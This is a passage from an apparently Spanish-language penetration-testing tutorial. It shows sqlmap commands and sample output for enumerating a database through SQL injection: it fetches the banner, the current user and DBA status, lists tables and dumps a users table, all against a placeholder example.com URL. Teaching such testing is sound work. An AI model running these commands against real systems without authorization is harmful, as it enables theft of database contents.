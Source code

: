 Otro ejemplo es recuperar todos los nombres de usuario (es decir, la etiqueta `<users>`). 

Se utilizan dos consultas, dependiendo de la situación. La consulta marcada como inband se utiliza en todas las situaciones no ciegas (es decir, consulta UNION y SQLi basada en errores), en las que se pueden esperar los resultados de la consulta dentro de la propia respuesta. 

La consulta marcada como ciega, por otro lado, se utiliza para todas las situaciones ciegas, en las que los datos deben recuperarse fila por fila, columna por columna y bit por bit.

### Enumeración básica de datos de la base de datos

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

La enumeración suele comenzar con la recuperación de la información básica:

- Banner de la versión de la base de datos (opción --banner)
- Nombre del usuario actual (opción --current-user)
- Nombre de la base de datos actual (opción --current-db)
- Comprobación de si el usuario actual tiene derechos de DBA (administrador) (opción --is-dba)


### Enumeración de tablas

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

```shell-session
...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

Cuando queramos volcar el contenido de una de las tablas.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```
